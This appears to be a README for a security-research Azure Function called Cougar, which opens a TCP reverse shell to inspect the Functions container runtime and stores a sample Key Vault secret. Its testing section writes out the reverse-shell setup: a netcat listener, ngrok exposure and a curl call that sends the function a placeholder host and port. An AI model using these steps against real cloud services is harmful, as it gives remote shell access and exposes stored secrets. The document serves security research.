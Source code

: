 # Puma Prey Cougar

Cougar is a C# function that can be deployed to the Azure to establish a TCP reverse shell for the purposes of introspecting the Azure Functions container runtime.

## Installing Prerequisites

* [.NET Core 3.1 SDK](https://dotnet.microsoft.com/download)
* [Terraform](https://learn.hashicorp.com/terraform/getting-started/install.html)

## Deploying the Function

```bash
cd src
dotnet restore
dotnet build
dotnet publish
cd ../terraform
terraform init
export TF_VAR_UniqueString=$(uuidgen | cut -b 25-36 | awk '{print tolower($0)}') # Save this value for future sessions.
terraform plan
terraform apply
```

## Deploying Assets

Create some secrets and grant permissions to the function SA.

```
az keyvault secret set --vault-name pumaprey-cougar-vault  --name "cougar-database-user" --value "cougar_user"

az keyvault secret set --vault-name pumaprey-cougar-vault  --name "cougar-database-pass" --value "QnV0IHVuaWNvcm5zIGFwcGFyZW50bHkgZG8gZXhpc3Qu"

az keyvault set-policy --name pumaprey-cougar-vault -g pumaprey-cougar --object-id 0cbd41de-55c6-460d-b92b-837eddd0ea0d --secret-permissions get list
```

## Testing in Azure

Set up a TCP listener for your reverse shell, such as with [Netcat](http://netcat.sourceforge.net/):

```bash
nc -l 4444
```

To make your listener accessible from the public internet, consider using a service like [ngrok](https://ngrok.com/):

```bash
ngrok tcp 4444
```

Retrieve the API key in the Azure Portal by searching for "Function App", clicking on the new Function App resource, clicking "Manage", and clicking "Click to show" next to the default function key.

Invoke your function, supplying your connection details and API key:

```bash
curl "https://cougar$TF_VAR_UniqueString.azurewebsites.net/api/Cougar?host=YOUR_PUBLICLY_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER&code=YOUR_API_KEY"
```

Your listener will now act as a reverse shell for the duration of the function invocation.

## Teardown

```bash
terraform destroy
```

## Running Locally

Install [Azure Functions Core Tools](https://docs.microsoft.com/en-us/azure/azure-functions/functions-run-local) and run the following:

```bash
cd src
dotnet restore
dotnet build
func start
```

## Testing Locally

```bash
curl 'http://localhost:7071/api/Cougar?host=YOUR_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER'
```

## Azure Function C# Template

```bash
func init Cougar --csharp --dotnet
func new --template "HTTP trigger" --name GetCougar
```
